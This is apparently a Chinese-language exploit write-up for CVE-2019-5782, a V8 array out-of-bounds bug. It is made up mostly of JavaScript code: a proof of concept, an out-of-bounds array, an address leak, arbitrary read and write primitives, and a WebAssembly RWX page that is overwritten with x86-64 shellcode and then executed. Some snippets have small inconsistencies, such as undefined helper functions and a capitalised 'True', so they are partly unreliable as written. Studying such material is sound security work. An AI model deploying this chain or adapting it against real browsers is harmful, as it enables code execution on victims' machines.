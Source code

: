 ## CVE-2019-5782

这是一个v8数组越界的漏洞

poc如下：
```
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}
var a1, a2;
var a3 = [1.1, 2.2];
a3.length = 0x11000;
a3.fill(3.3);
var a4 = [1.1];
for (let i = 0; i < 3; i++) fun(...a4);
%OptimizeFunctionOnNextCall(fun);
fun(...a4);
res = fun(...a3);
assertEquals(16, a2.length);
for (let i = 8; i < 32; i++) {
  assertEquals(undefined, a2[i]);
}
```

漏洞点是在对fun函数的优化过程中产生的，漏洞导致了我们可以对a1数组进行越界写，从而可以将内存中紧跟在a1.elements后的a2数组做任意写，在POC中对就是对a2的length进行了修改。

既然可以通过a1修改a2的length，那我们只要将其修改为一个极大的值，那么我们就可以获得一个越界的数组a2。

数组越界的漏洞还是很常见的，利用起来也不是很难：

利用思路：

- 获得越界数组
- leak object address
- arbitrary read and write
- 利用wasm执行shellcode


##### 1 获得越界数组

poc中是调用%OptimizeFunctionOnNextCall(fun);来使fun被优化，之后发现了ray-cp师傅的代替%OptimizeFunctionOnNextCall的方法，就是下面的循环：
```
function foo(arg)
{
    let idx = arguments.length;
    idx = idx>>16;
    idx = idx * 6;
    let arr = [1.1, 2.2, 3.3];
    arr[idx] = 1.74512933848984e-310;   // overwrite the length i2f(0x202000000000)
    return arr;
}

//%OptimizeFunctionOnNextCall(foo);
for(let i=0; i<MAX_ITERATIONS; i++)
{
    foo(i);
}
var b = new Array(1<<16);
oobArray = foo(...b);
```

##### 2 leak object
``` 
objArray = {m:i2f(0xdeadbeef), target:func};
dataBuf = new ArrayBuffer(0x200);

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        break;
    }
} 

//object bk offest
var ArrayBufIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x200) {
        ArrayBufIdx = i + 1;
        break;
    }
}

```

可以定义一个对象：objArray，对象有两个属性,通过对target赋值为目标对象，我们通过遍历数组oobArr,找到target属性后，就可以通过oobArr[offest]的方式将它的地址泄漏出来。

```
function addrOf(obj)
{
    objArray.target=obj;
    return f2i(oobArray[ObjectIdx]) - 1;
}
```


##### 3 arbitrary read and write

```
// arbitrary read
function dataViewRead64(addr)
{
    oobArray[ArrayBufIdx]=i2f(addr);
    return f2i(dataView.getFloat64(0, true));
}

// arbitrary write
function dataViewWrite64(addr, value)
{
    oobArray[ArrayBufIdx] = i2f(addr);
    return dataView.setFloat64(0, f2i(value), True);
}
```

aar和aaw是通过控制bk来实现的，我们之前以经找到了bk在oobArray的偏移，我们就可以通过修改bk为想要读/写的地址，之后对该对象进行读取或写入即可达到目的。


##### 4 使用wasm getshell

通过wasm找到rwx的流程：

wasmInstance.exports.main -> shared_info -> data -> instance -> RWX (instance+0xe8)

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,
    127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,
    1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,
    0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,10,11]);
var func = wasmInstance.exports.main;

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];


dataViewWrite(rwxAddr, shellcode);


func();
```

